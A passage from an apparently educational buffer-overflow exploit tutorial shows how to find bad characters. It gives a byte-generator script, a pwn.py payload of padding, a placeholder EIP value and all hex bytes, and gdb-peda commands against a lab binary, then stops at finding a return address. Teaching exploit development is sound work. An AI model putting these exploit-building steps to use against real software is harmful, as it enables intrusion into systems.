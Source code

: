 11. [Identify bad characters](https://www.ins1gn1a.com/identifying-bad-characters/) that cannot be included in the payload and return address

    1. **generate_hex_char.py**

            #!/usr/bin/python
            import sys
            for x in range(1,256):
                sys.stdout.write("\\x" + '{:02x}'.format(x))
            sys.stdout.write("\n");

    2. `python generate_hex_char.py > bad_char.lst`
    3. **pwn.py**

        ```python
        #!/usr/bin/python

        buf="A"*188
        eip="BCDE"
        potential_badchars="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

        print buf + eip + potential_badchars
        ```

    4. Generate a payload that includes a list of **all possible hexadecimal characters**: 
        
            python pwn.py > pwn.txt

    5. Attach GDB to target binary: `gdb ./vuln_binary`
    6. Run the binary with **new input** being read from `pwn.txt` file

            gdb-peda$ run < ./pwn.txt

    7. When segmentation fault occurs, and program execution pauses, analyse the **hex dump** to identify **bad characters**

            gdb-peda$ x /300xb $esp

    8. Remove identified bad character from input file, and repeat the entire process, until no more bad characters could be found

            gdb-peda$ finish
            gdb-peda$ run < ./updated_pwn.txt
            gdb-peda$ x /300xb $esp

12. Find a valid **return address** that will redirect code execution to memory location pointed to by the **ESP** register. 
    